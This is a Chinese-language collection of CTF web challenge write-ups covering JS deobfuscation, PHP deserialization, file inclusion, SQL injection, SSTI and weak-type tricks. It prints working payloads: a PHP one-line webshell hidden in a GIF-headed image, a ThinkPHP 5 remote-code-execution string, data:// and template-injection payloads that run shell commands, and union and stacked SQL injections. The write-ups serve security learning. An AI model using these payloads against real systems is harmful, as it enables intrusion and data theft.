

### simple_js

默认弹出窗口，先 f12，查看源代码，发现 js 代码如下

```html
<html>
	<head>
		<title>JS</title>
		<script type="text/javascript">
			function dechiffre(pass_enc) {
				var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
				var tab = pass_enc.split(",");
				var tab2 = pass.split(",");
				var i,
					j,
					k,
					l = 0,
					m,
					n,
					o,
					p = "";
				i = 0;
				j = tab.length;
				k = j + l + (n = 0);
				n = tab2.length;
				for (i = o = 0; i < (k = j = n); i++) {
					o = tab[i - l];
					p += String.fromCharCode((o = tab2[i]));
					if (i == 5) break;
				}
				for (i = o = 0; i < (k = j = n); i++) {
					o = tab[i - l];
					if (i > 5 && i < k - 1) p += String.fromCharCode((o = tab2[i]));
				}
				p += String.fromCharCode(tab2[17]);
				pass = p;
				return pass;
			}
			String["fromCharCode"](
				dechiffre(
					"\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
				)
			);

			h = window.prompt("Enter password");
			alert(dechiffre(h));
		</script>
	</head>
</html>
```

分析得出，无论弹出的对话框输入密码正确与否都只会返回同一个字符串；

真正的密码就是这以下代码中的 16 进制加密数据

```js
String["fromCharCode"](
	dechiffre(
		"\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
	)
);
```

<br>

同样的，直接在开发者工具的控制台内使用 String 函数对这段编码进行解码

之后编码转换，直接获取 flag

flag 为 `786OsErtk12`

> 注意提交是的格式！！！所以正确答案应该为 cyberspace{786OsErtk12}


<br>

### PHP2

> php 是给开发者看的源代码，phps 是为了直接在网页中查看 php 源码而设计的文件

通过 index.phps 获取网页 php 源代码

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

<br>

### unserialize3

目的：通过反序列化绕过魔法函数 wakeup

原理：  
当执行反序列化时会首先运行魔法函数 `__wakeup()`；我们需要绕过该魔法函数才能正确获取 flag  
仅需使序列化成员数大于实际成员数即可！

打开 phpstorm，写入以下代码，获取类 xctf 的序列化内容

```php
<?php
class xctf
{
    public $flag = '111';

    public function __wakeup()
    {
        exit('bad requests');
    }
}

$a=new xctf();
var_dump(serialize($a));
```

<br>

得到的序列化内容：  
`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

我们增加实际成员数，即把 1 改成 2，此时得到：  
`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

<br>

将该序列化内容作为负载写入 URL  
`xxx.xxx.xxx.xxx/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

即可绕过 wakeup 获取正确的 flag

<br>

### easyupload

题解：利用 .user.ini 配置文件挂载后门程序，使用蚁剑链接得到 flag

可以先制作一个 `.user.ini` 文件

```ini
GIF89a
auto_prepend_file=a.jpg
```

在制作一个带一句话木马的图片 `a.jpg`

```php
GIF89a
<?=eval($_POST['cmd']);?>
```

<br>

使用 burp 拦截每一次上传请求，把 content-type 全部改为 image/jpg，这样才可以绕过类型检测

完毕后中国蚁剑找到文件上传点，链接即可

<br>

### fileclude

题解：`php://filter/red` + `php://input` 绕过

打开网站首先看到的是一串源码

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET["file1"]) && isset($_GET["file2"]))
{
    $file1 = $_GET["file1"];
    $file2 = $_GET["file2"];
    if(!empty($file1) && !empty($file2))
    {
        if(file_get_contents($file2) === "hello ctf")
        {
            include($file1);
        }
    }
    else
        die("NONONO");
}
```

大意就是：需要通过 url 传入两个参数 file1 和 file2，且 file2 的内容必须为 `hello ctf`

<br>

可以构造如下载荷

`?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=php://input`

通过 apifox 中的 POST 请求，请求体使用 raw 格式，写入 hello ctf，此即代表了 file2 的内容！

> file1 读取 flag.php 文件，而 file2 通过 POST 请求体传入指定字符串，成功拿到经过 base64 加密后的 flag

<br>

### easyphp

题解：纯阅读理解题，自己看代码

涉及知识点：php 语法、弱类型绕过、md5 碰撞

分析代码：

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

// URL传参，两个参数分别为a和b
$a = $_GET['a'];
$b = $_GET['b'];

// 限制参数a属性
if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    // 限制参数b属性
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?>
```

<br>

### file_include

题解：通过 convert.iconv 进行编码转换

源码：

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

经过尝试，发现基本的 `filter` 以及 `string.*` `convert.*` 大多数被过滤掉而无法使用

<br>

可以尝试使用 `convert.iconv.a.b/resource`  
其中 a 表示输入内容的编码类型，b 表示输出内容的编码类型

使用 burp 进行部分常见 php 编码类型的爆破后，得到一组正确的输入输出编码，作为 payload 待入 url 进行请求即可得到 flag  
`php://filter/convert.iconv.a.b/resource=flag.php`

<br>

### unseping

题解：高难度进阶题！！！！

知识点：反序列化、命令执行绕过、空格绕过、空环境变量绕过

<br>

分析代码

```php
<?php
highlight_file(__FILE__);

class ease{

    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }

    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    }

    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }

    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

> 暂时弃坑，我连答案都看不懂

<br>

### newscenter

题解：sql 注入

打开网站，发现是一个新闻页面，附带一个搜索框；  
从搜索框下手，进行 sql 注入

<br>

开启 burp 的监听模式，随意在搜索框中输入一些字符然后拦截，把拦截内容发到 repeater 里面去

首先判断能否联合查询，我们输入以下判断语句报错，表示对应 3 个元素：  
`1' order by 4 -- -`

测试一下获取当前数据库版本与数据库名称（mysql5.0+才有 information_schema）  
`-1' union select 1,version(),database() -- -`


发现为 5.0+版本且数据库名称为 news，直接查找该数据库下有哪些数据表  
根据返回结果得到俩表：news 和 secret_table，显然后者必定存在 flag  
`-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='news' -- -`

查看数据表 secret_table 下列名称  
发现存在两列：id 和 fl4g  
`-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='secret_table' -- -`

最后查看 fl4g 的内容即可得到 flag  
`-1' union select 1,2,group_concat(fl4g) from secret_table -- -`

> 答案：QCTF{sq1_inJec7ion_ezzz}

<br>

### xff_referer

题解：burp 抓包伪造 x-forwarded-for 以及 referer

直接 burp 抓打开网站的包，发到 repeater

直接在请求头末尾（不要画蛇添足加多余的换行符或者空格！！！）添加以下两行  
`X-Forwarded-For: 123.123.123.123`  
`Referer: https://www.google.com`

> 之后 send 就能拿到 flag 了

<br>

X-Forwarded-For：用来识别通过 HTTP 代理或负载均衡方式连接到 Web 服务器的客户端最原始的 IP 地址的 HTTP 头字段

Referer：包含了当前请求页面的来源页面的地址，服务端以此验证访问来源

<br>

### Web_php_unserialize

题解：阅读理解题，反序列化

```php
<?php
class Demo {
    private $file = 'index.php';
    public function __construct($file) {
        $this->file = $file;
    }
    function __destruct() {
        echo @highlight_file($this->file, true);
    }
    function __wakeup() {
        if ($this->file != 'index.php') {
            //the secret is in the fl4g.php
            $this->file = 'index.php';
        }
    }
}

if (isset($_GET['var'])) {
    $var = base64_decode($_GET['var']);
    if (preg_match('/[oc]:\d+:/i', $var)) {
        die('stop hacking!');
    } else {
        @unserialize($var);
    }
} else {
    highlight_file("index.php");
}
?>
```

可见我们需要传参 var，且 flag 保存的文件位置为 fl4g.php  
分别需要绕过正则以及`__wakeup()`函数

故得出以下 POC

```php
<?php

class Demo
{
    private $file = 'index.php';

    // 构造函数，new对象时调用
    public function __construct($file)
    {
        $this->file = $file;
    }

    // 析构函数，销毁对象时调用
    function __destruct()
    {
        echo @highlight_file($this->file, true);
    }

    // 魔法函数，反序列化时调用
    function __wakeup()
    {
        if ($this->file != 'index.php') {
            $this->file = 'index.php';
        }
    }
}

// 根据fl4g.php构造序列化内容
$demo = new Demo("fl4g.php");
$serial = serialize($demo);
echo $serial; // O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}

$serial = str_replace('O:4', 'O:+4', $serial); // 绕过正则
$serial = str_replace(':1:', ':2:', $serial);  // 绕过__wakeup()
$serial = str_replace(' ', '%00', $serial);    // 替换掉因序列化保护机制而多生成的空格
echo base64_encode($serial);  // TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

> 将 payload 带入 url 执行后可得 flag：ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}

<br>

### php_rce

题解：查询 thinkphpv5.02 版本漏洞，直接抄上去就好不用理解

首先拿到代码，这是代码格式：  
`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=需要执行的shell代码`

我们直接使用 ls 查看当前目录下的文件，payload 为  
`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`

发现都是些没用的玩意，直接查看根目录  
`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/`

发现出现了 flag 文件夹，我们直接进去就可以看见 flag 了，是不是很简单  
`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag`

> 答案：flag{thinkphp5_rce}

<br>

### Web_php_include

题解：避免使用 php://，使用其他方法代替绕过

**方法一：data 伪协议**  
先使用 data 伪协议调用 php 执行代码，查看当前目录下所有文件  
`?page=data://text/plain,<?php system("ls")?>`

发现 flag 文件，使用 cat 指令查看文件内容即可  
`?page=data://text/plain,<?php system("cat fl4gisisish3r3.php")?>`

打开开发者工具，查看源代码，即可发现 flag

<br>

**方法二：data 伪协议上传木马**  
data 协议直接上传 php 代码原文： `data://text/plain,<?php xxx ?>`  
data 协议上传 base64 加密后内容：`data://text/plain;base64, JTNDJTNGcGhwJTIwQGV2YWwlMjglMjRfUE9TVCU1QiUyMmZ1Y2slMjIlNUQlMjklM0I=`

<br>

### warmup

题解：路径查找

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            // 白名单，即我们可以访问的两个php文件
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];

            // 如果page没设置或者不是字符串类型的，报错
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            // 如果page值在白名单内，正确
            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }
?>
```

<br>

**知识点解析**

`mb_substr(a,b,c)` 从字符串 a 中截取从索引 b 到 c 的一段子字符串  
`mb_subpos(a,b)` 在字符串 a 中查找字符串 b 首次出现的索引

> 根据文中代码展示的是提取问号前面的字符串

`$_page = urldecode($page);`  
表示对变量 page 进行一次 url 解码；  
我们知道，url 在传递过程会执行一次加密操作，而传输给后端又会执行一次解密过程；  
故我们一旦看到 php 代码中含有 urldecode，大概率需要我们加密两次才会返回正确答案

> 这题比较特殊，仅需加密一次即可

<br>

**答案**

直接顺着文件路径一直查找到根目录下的 flag 文件即可

> 答案：`?file=hint.php?../../../../../../../../../../../../../ffffllllaaaagggg`

<br>

### supersqli

题解：堆叠注入

判断三部曲：

1. 判断是否为单引号注入：成功
2. order by 判断列数：2 列
3. union select 联合查询尝试：失败，无法查询，被过滤掉了

<br>

既然无法使用联合查询，则改用堆叠注入

首先查询一下所有数据库：  
`1' ;show databases -- -`

进入关键数据库 `supersqli` 并查询数据表  
`1' ;use supersqli;show tables -- -`

进入关键数据表 `1919810931114514` 并查询所有列  
（注：查询纯数字或关键字的表名、列名必须要加反引号或者单引号）

```
-1' ;use supersqli;show columns from `1919810931114514`;%23

```

<br>

此时已经查明 flag 存在的位置，且因为 select 被过滤掉了，故改用预处理的方法绕过 select 执行查询

格式：`prepare 任意名称 from concat(连接好的查询语句);execute 前面定义的名称 -- -`

```
1';prepare demo from concat('s','elect',' * from `1919810931114514`');execute demo -- -

```

<br>

> 成功拿到 flag：flag{c168d583ed0d4d7196967b28cbd0b5e9}

<br>

### Web_python_template_injection

题解：很经典的模板注入题

先在 url 尝试使用模板语法，发现存在 SSTI  
`/{{''.__class__}}`

套以下代码获取所有子类型  
`http://223.112.5.156:52404/{{[].__class__.__base__.__subclasses__()}}`

<br>

寻找是否存在 catch_warnings 模块，搜索找到该模块位于第 59 项，故对 59 项进行初始化并提取该模块下属内容  
`{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}`

找到函数 lineche，该函数存在 os 模块，通过 os 模块调用命令行查看当前目录下所有文件  
`{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}`

找到存在一个 fl4g 文件，使用 cat 读取  
`{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("cat fl4g").read()')}}`

<br>

> 拿到 flag：ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}

<br>

### easytornade

题解：easy_tornado render 模板注入

打开网页上的三个文件，我们得到几个信息：

1. render 相关->考虑模板注入
2. flag 文件存放地址
3. filehash 的加密方法为 `cookiesecret+md5`

<br>

先根据 tornade 可能存在的模板注入，爆出 cookie_secret  
`error?msg={{handler.settings}}`

拿 flag 文件的路径进行 32 位小写字母 md5 加密！！！  
注意不要落下了斜杠  
`/fllllllllllllag`

同理，拿 cookie_secret 进行 md5 加密  
将二者相加，再执行一次加密后取得密文

<br>

执行请求即可：  
`/file?filename=/fllllllllllllag&filehash=你的密文`

<br>

### ics-05

可以参考这篇文章：https://blog.csdn.net/zhwho/article/details/100694073?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167270516916782429733722%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=167270516916782429733722&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-100694073-null-null.142^v68^pc_new_rank,201^v4^add_ask,213^v2^t3_esquery_v3&utm_term=ics-05&spm=1018.2226.3001.4187

<br>

### lottery

> 如果发现无法注册，请看以下你是不是禁用了浏览器 js 了，我就犯了这个低级错误

题解：分析 api.php，根据弱类型刷钱买 flag

下载附件，打开 api.php，找到判定中奖的方法：

```php
function buy($req){
	require_registered();
	require_min_money(2);

	$money = $_SESSION['money']; #存储money
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){ #如果传入到numbers==系统生成到win_numbers那么same_count加一
			$same_count++;
		}
	}
	switch ($same_count) {
		case 2:
			$prize = 5;
			break;
		case 3:
			$prize = 20;
			break;
		case 4:
			$prize = 300;
			break;
		case 5:
			$prize = 1800;
			break;
		case 6:
			$prize = 200000;
			break;
		case 7:
			$prize = 5000000;
			break;
		default:
			$prize = 0;
			break;
	}
	$money += $prize - 2;
	$_SESSION['money'] = $money;
	response(['status'=>'ok','numbers'=>$numbers, 'win_numbers'=>$win_numbers, 'money'=>$money, 'prize'=>$prize]);
}
```

<br>

两个等于仅检查值相等，三个等于才检查值和类型相等；  
可以使用弱类型比较，只要传入一个 bool 值，另外一个也会被转换为 bool 进行比较；  
`$numbers[$i] == $win_numbers[$i]`

故当七个码都是 true 的话，每个数字一一比对的结果都是 true，那必然中头等奖；  
所以我们 burp 拦截购买彩票的请求，发送到 repeater

在最下方的 numbers 参数，使用数组传入七个 true 即可  
然后一直 send，直到你认为赚钱够了  


<br>

然后直接高价买入 flag 就完事了

<br>

### shrink

题解：flask 模板注入

直接打开网页就是一串 python 代码，注意其中的关键点

表示需要通过对象 app 获取配置文件的 flag  
`app.config['FLAG']`

路由，可以尝试在这里使用模板注入  
`@app.route('/shrink/')`

<br>

既然我们要获取对象 app，则可以从全局变量中查询：  
`/shrine/{{url_for.__globals__}}`

通过搜索，发现变量 `'current_app'` 是一个指向对象 app 的引用  
我们依葫芦画瓢，把该变量当做 app 来直接调用 config 中的 FLAG  
`/shrine/{{url_for.__globals__['current_app'].config['FLAG']}}`

> 拿到 flag：flag{shrine_is_good_ssti}

<br>

### fakebook

> 参考文献：[点击跳转](https://blog.csdn.net/qq_41500251/article/details/105383065?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167271083616800225514860%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=167271083616800225514860&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-105383065-null-null.142^v68^pc_new_rank,201^v4^add_ask,213^v2^t3_esquery_v3&utm_term=fakebook&spm=1018.2226.3001.4187)

<br>

###
